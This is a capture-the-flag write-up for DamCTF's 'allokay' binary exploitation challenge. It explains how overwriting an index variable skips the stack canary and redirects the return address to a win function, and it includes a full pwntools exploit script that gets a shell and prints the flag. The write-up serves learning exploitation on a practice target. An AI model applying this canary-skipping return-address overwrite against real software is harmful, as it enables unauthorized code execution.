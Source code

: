 ## DamCTF: allokay [pwn]
![](allokay_description.png)

#### As the description says, it was the baby pwn for the ctf. We are given a binary which when input into GHIDRA results into the following decompilation:
![](allokay_main.png)
![](allokay_getinput.png)

#### From what we can see, we know that it takes input from the user, turns it into an integer representation. In user_input is a valid integer, it calls get_input which loops user_input times, else it will exit. The vulnerability isn't clear by static analysis alone so I went and played around with it in gdb to which I found out it writes our input into the stack using the current position it is reading as indexes (Enter number 0/10 writes our input to stack[0]). Below is how the stack looks when we input five numbers:

![](allokay_gdb.png)

#### We can easily see our input (1,2,3,4,5), the variable for how many numbers we need to read (`rbp-0x24`) and the variables to which index our input will be written to (`rbp-0x14`). The plan is to overwrite them in a way that makes sure that the while loop condition from the decompilation is satisfied so that we can continue providing values to the stack. We want to overwrite the return address (`0x4008c5`) to gain control of execution, but we need to not overwrite the stack canary. How do we do this?

#### Simply by changing `rbp-0x14` to a value that skips over the location of the canary. The way I did this was through trial and error. Now after we control where we return to, there is a handy function `win` which executes execve for us; the catch is we need to provide the /bin/sh string. Since the get_input loop only accepts integer input, the logical move would be to place it on the buffer during the start of the program then determine the address of the buffer (which doesn't change because PIE is disabled).

#### Since we will pass the string as an argument, it would be on the stack. Thus I decided to jump after `win`'s function prologue to not mess up the stack. After we have placed the values that we need, we can continue providing values until such condition that the loop terminates and returns. Might be a complicated process but it got me a shell nonetheless. 

```python
from pwn import *

#:
#p = process('./allokay')
p = remote('chals.damctf.xyz' ,32575)
#gdb.attach(p.pid, 'break *get_input + 194')
print(p.recv())

p.sendline('100A/bin/sh\x00')
print(p.recvuntil('numbers!\n'))

for i in range(17):
	print(p.recvuntil(': '))
	p.sendline(str(i))

print(p.recvuntil(': '))
p.sendline('128849018880') #: overwrite the number of items that we read in (change from 100 to 30)
print(p.recvuntil(': '))
p.sendline('18') 
print(p.recvuntil(': '))
p.sendline('94489280512') #: overwrite the index to where the next input will be written to (this skips over the canary and places the value into the return address)
print(p.recvuntil(': '))
p.sendline('4196211') #: jump in the middle of the win function, didn't want the prologue to be included since I didn't want to mess up the stack
print(p.recvuntil(': '))
p.sendline('4919') #: skip
print(p.recvuntil(': '))
p.sendline(str(0x6010a0 + 4)) #: address of the /bin/sh string
print(p.recvuntil(': '))
p.sendline('4919') #: just continue writing until we reach 30
print(p.recvuntil(': '))
p.sendline('4919')
print(p.recvuntil(': '))
p.sendline('4919')
print(p.recvuntil(': '))

p.interactive()

#: 128 849 018 880 <- 17/100
#: 944 892 805 12 <- 19/100
#: 419 621 1 <- middle of win
#: 0x6010a0 <- buffer
#: 322 376 503 <- 0x13371337
#: dam{4Re_u_A11_0cK4y}
```
![](shell.png)